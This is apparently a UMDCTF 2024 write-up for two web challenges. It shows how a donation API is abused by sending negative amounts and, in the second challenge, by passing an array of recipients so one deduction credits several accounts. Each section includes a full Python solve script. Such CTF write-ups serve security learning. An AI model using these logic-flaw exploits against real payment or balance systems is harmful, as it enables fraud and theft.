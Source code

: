 # # UMDCTF 2024 Writeups

Writeups for solved [UMDCTF 2024](https://ctftime.org/event/2323) web challenges (2/4)

---

# web
## web/Donations
`#API #business-logic`
> Show off your capitalistic altruism today. https://donations.challs.umdctf.io

Challenge about abusing the  business logic and increasing our initial account balance

We can view the JS source code and find API endpoints. https://donations-api.challs.umdctf.io/api/flag endpoint returns  `only the wealthy may view the treasure`. 


We start with a currency of `1000`. To get the flag, we need to increase our currency to `5000` in our account.  The main feature of the website is that we can send/donate  to another user but the requirement is that we can only send to `lisanalgaib`.
<br><br>
To solve it, I sent negative values in the donate API endpoint and it accepted it.

```python
donate_url = "https://donations-api.challs.umdctf.io/api/donate?username=lisanalgaib"

donation = {
	"to": "lisanalgaib",
	"currency": -4000 # 1000 -(-4000) = 5000
}
r = s.post(donate_url, data=donation)
```

solve.py
```python
import requests, os

flag_url = "https://donations-api.challs.umdctf.io/api/flag"
register_url = "https://donations-api.challs.umdctf.io/api/register"
login_url = "https://donations-api.challs.umdctf.io/api/login"
donate_url = "https://donations-api.challs.umdctf.io/api/donate?username=lisanalgaib"

username = os.environ.get('username')
password = os.environ.get('password')
main_creds = {"username": username, "password": password}

def login(s, data):
    r = s.post(login_url, data=data)
    print(r.text)
    return s 

def register(data):
    s = requests.session()
    r = s.post(register_url, data=data)
    print(r.text)
    return s 

def donate(s):
    # allows negative values to increase our own money
	donation = {
		"to": "lisanalgaib",
		"currency": -4000 
	}
	r = s.post(donate_url, data=donation)
	print(r.text)

def main():
    s = requests.Session()
    s = register(main_creds)
    s = login(s, main_creds)

    donate(s)

    r = s.get(flag_url)
    print(r.text)
    
if __name__ == "__main__":
    main()

```

flag: **UMDCTF{BE20$_1s_7h3_T0N6U3_OF_Th3_uN5e3N}**

---

## web/Donations (but I fixed it)
> Bezos is not happy with what you did to his net worth. https://donations2.challs.umdctf.io

The challenge is similar to the previous challenge that we need to increase our initial balance. However, the donate API is "fixed" and does not allow negative integer inputs.  There is still no way to change the recipient of our donation. It still requires `lisanalgaib`

To solve I learned i can send donations in multiple users by specifying an array of users instead of a single user example: `to=["lisanalgaib","another_user"]`. This way the required user is still included in the request and that we can also donate to another user.

```python
donation = {
	"to": ["lisanalgaib", "another_user"],
	"currency": 1000
}
r = s.post("https://donations2-api.challs.umdctf.io/api/donate?username=lisanalgaib", data=donation)
```

This means that i can create multiple accounts and send money to my main account. 

solve.py
```python
import requests, os

flag_url = "https://donations2-api.challs.umdctf.io/api/flag"
register_url = "https://donations2-api.challs.umdctf.io/api/register"
login_url = "https://donations2-api.challs.umdctf.io/api/login"
donate_url = "https://donations2-api.challs.umdctf.io/api/donate?username=lisanalgaib"

username = os.environ.get('username')
password = os.environ.get('password')
main_creds = {"username": username, "password": password}

def login(s, data):
    r = s.post(login_url, data=data)
    print(r.text)
    return s 

def register(data):
    s = requests.session()
    r = s.post(register_url, data=data)
    print(r.text)
    return s 

def donate(s):
	# donate to multiple users only deducting 1000 
	donation = {
		"to": ["lisanalgaib", username],
		"currency": 1000
	}
	r = s.post(donate_url, data=donation)
	print(r.text)

def main():
    # create random users and send donation to main account
    for i in range(5):
        new_user = "user_abc" + str(i)        
        creds = {"username": new_user, "password": "password"}
        s = register(creds)
        s = login(s, creds)
	    donate(s)
	# get flag on main account 
    s = requests.Session()
    s = login(s, main_creds)
    r = s.get(flag_url)
    print(r.text)
    
if __name__ == "__main__":
    main()
```

flag: **UMDCTF{TeS7_your_CHAL1En93S 6UyS}.**
